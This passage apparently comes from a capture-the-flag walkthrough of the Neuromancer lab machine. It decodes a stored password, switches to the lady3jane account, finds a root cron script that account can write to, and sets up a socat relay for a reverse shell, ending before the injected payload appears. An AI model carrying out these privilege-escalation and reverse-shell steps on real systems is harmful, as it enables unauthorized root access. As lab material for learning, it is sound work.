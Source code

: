 It seems we are able to read the config file. We can also see a note there stating that Ed Occam has encoded the password so the AI don’t flag it, but since it’s just encoding we can just decode it. We can see the username Lady3Jane who is also another user on the Neuromance machine alongside the ta user. Let’s go ahead and decode the password. 

The password was encoded as an HTML Entity. Decoding gives us the password

```bash
>!Xx3JanexX!<
```

Let’s try using this password to switch over to Lady3Jane’s account.

```bash
ta@neuromancer:~$ su lady3jane
Password: 
lady3jane@neuromancer:/home/ta$ id
uid=1001(lady3jane) gid=1001(lady3jane) groups=1001(lady3jane)
lady3jane@neuromancer:/home/ta$
```

There we go, we are able to log in to lady3jane’s account. Let’s perform some enumeration to see what we can do. We are able to find an interesting file in lady3jane’s home directory

```bash
lady3jane@neuromancer:~$ cat custom-tomcat-chk.sh 
#!/bin/bash
# Health check for Neuromancer (root) to execute every 3 minutes.
# ..the AI tells me it can maintain security, server health, etc w/o forced intervention,
# but I beg to differ...hence the cron script.

> /tmp/tomcat_status.log

health=$(curl -m 5 -Is 127.0.0.1:8080 |grep HTTP/1.1)

case "$health" in

  *200*)
        echo "Tomcat is Up" > /tmp/tomcat_status.log
        ;;
  *)
        echo "Tomcat is down" > /tmp/tomcat_status.log
        ;;
  esac
```

The comment says that root executes this script every 3 minutes. Lucky for us since the file is owned by lady3jane, all we need to do now is add a malicious command in the file and we will get root. Since we want to send a reverse shell we will need to setup another tunnel using socat. Let’s go back to straylight and do just that.

```bash
root@straylight:/tmp# socat TCP4-LISTEN:8089,fork TCP4:192.168.56.103:4247&
[2] 13372
```

There we go now we can just add our malicious code into the script and wait for a shell
